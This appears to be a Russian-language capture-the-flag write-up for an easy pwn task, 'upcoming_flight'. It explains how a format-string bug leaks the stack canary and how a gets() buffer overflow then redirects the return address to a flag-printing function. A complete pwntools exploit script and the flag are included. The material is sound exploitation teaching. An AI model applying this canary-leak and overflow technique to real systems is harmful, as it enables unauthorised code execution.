





# Предстоящий полет | easy | pwn

## Информация
> Наш герой - это обычный парень, с обычного города N. Он работает на обычной работе и проживает обычную жизнь и, в целом, не жалуется. Но однажды — кто знает, откуда берутся подобные мысли? — его посетила идея, странная, абсурдная и даже несколько пугающая. "А что, если стать хакером?". Зачем? Почему? Разве подобные вопросы имеют значение? Возможно, это было бегство, вызов, мятеж, — быть может, даже нечто демоническое. Сказано - сделано, парень днями и ночами сидел за книгами и различными видео на всем известной площадке. Цель его была проста и дерзка: улететь в отпуск, не потратив ни копейки. Ни малейшего намёка на законность, ни малейшего страха перед последствиями. Казалось, всё его существо слилось в этой безумной идее. Прошел год, парень поднаторел и решил, что пора. Так он и оказался в аэропорту и начал думать, что же ему делать дальше...


## Выдать участникам
файл [upcoming_flight](public/upcoming_flight)

## Описание
Для решения надо увдиеть уязвимость форматной строки и переполнения буфера.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.



**(Функция arrive)**

Изначально **has_ticket = false** Единственное место, где значение это переменной может измениться - это функция **print_ticket()**



Однако в это условие попасть невозможно, значит нужно искать обходные пути

В этой же функции можно найти вызов gets, в нем не контролируется количество введенных символов, а значит получаем переполнение буфера (можем переписать адрес возврата и прыгнуть на **system(“cat flag”)**). 

Проверяем бинарь с помощью утилиты pwn checksec и видим, что канарейка включена, значит ее нужно предварительно ликнуть.

Чуть выше функции gets есть printf(s), но мы контролируем s, поэтому получаем уязвимость форматный строки (можем вывести переменную со стека).



(Уязвимость форматной строки)



(Ликнутая канарейка)

Далее находим нужный отступ и выводим канарейку, затем переполняем буфер и заменяем адрес возврата на нужный нам.



(адрес, с которого начинается вывод флага)

Полное решение:

```python
from pwn import *

s = process("./upcoming_flight")

s.readuntil(b"> ")
s.sendline(b"2")
s.readuntil(b": ")
s.sendline(b"%15$p")
s.readuntil(b": ")

canary = s.readline().strip().decode()

print(f"Canary leak -> {canary}")

s.readuntil(b": ")
s.sendline(b"A" * (40) + p64(int(canary, 16)) + b"A" * 8 + p64(0x401359))

s.interactive()
```
## Флаг
`PolyCTF{W1_w13h_u_A_n1c3_fL1gHt}`
